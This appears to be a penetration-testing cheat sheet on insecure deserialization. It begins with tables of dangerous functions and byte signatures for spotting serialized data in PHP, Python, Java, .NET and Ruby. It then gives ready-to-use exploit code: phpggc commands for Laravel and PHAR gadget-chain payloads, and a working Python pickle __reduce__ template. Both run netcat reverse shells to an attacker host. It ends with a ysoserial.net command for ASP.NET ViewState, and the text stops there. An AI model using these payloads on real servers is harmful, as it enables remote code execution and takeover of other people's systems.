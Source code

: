 # Identifying the use of Serialization

## White-Box

| Function             | Language                     |
|----------------------|------------------------------|
| `unserialize()`      | PHP                          |
| `pickle.loads()`     | Python (Pickle)              |
| `jsonpickle.loads()` | Python (JSONPickle)          |
| `yaml.load()`        | Python (PyYAML, ruamel.yaml) |
| `readObject()`       | Java                         |
| `Deserialize()`      | C#/.NET                      |
| `Marshal.load()`     | Ruby                         |


## Black Box

| Bytes                                                                      | Language                           |
|----------------------------------------------------------------------------|------------------------------------|
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP                                |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.`         | Python 2.x (Pickle Protocol 0)     |
| `80 01` (Hex)                                                              | Python 2.x (Pickle Protocol 1)     |
| `80 02` (Hex)                                                              | Python 2.3+ (Pickle Protocol 2)    |
| `80 03` (Hex)                                                              | Python 3.8+ (Pickle Protocol 4)    |
| `80 04 95` (Hex)                                                           | Python 3.x (Pickle Protocol 5)     |
| `["Test", "Data", [4], "ACADEMY"]`                                         | Python 2.7 / 3.6+ (JSONPickle      |
| `- Test\n- Data\n- - 4\n- ACADEMY\n`                                       | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64)                             | Java                               |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64)                | C#/.NET                            |
| `04 08` (Hex)                                                              | Ruby                               |

# Exploiting PHP Deserialization

## PHPGGC

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```
# Exploiting __VIEWSTATE parameter without knowing its secrets

## Sensitive files: web.config

## Tools: https://github.com/pwntester/ysoserial.net

## Resources: https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter

### ViewState information can be characterized by the following properties or their combinations:

## 1) Base64:

 - This format is utilized when both EnableViewStateMac and ViewStateEncryptionMode attributes are set to false.

## 2) Base64 + MAC (Message Authentication Code) Enabled:

 - Activation of MAC is achieved by setting the EnableViewStateMac attribute to true. This provides integrity verification for ViewState data.

## 3) Base64 + Encrypted:

 - Encryption is applied when the ViewStateEncryptionMode attribute is set to true, ensuring the confidentiality of ViewState data.

### Payload generation commands:

 - ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "REVERSE_SHELL_PAYLOAD_HERE" (Use this if ViewState is NOT MAC protected)

 - 
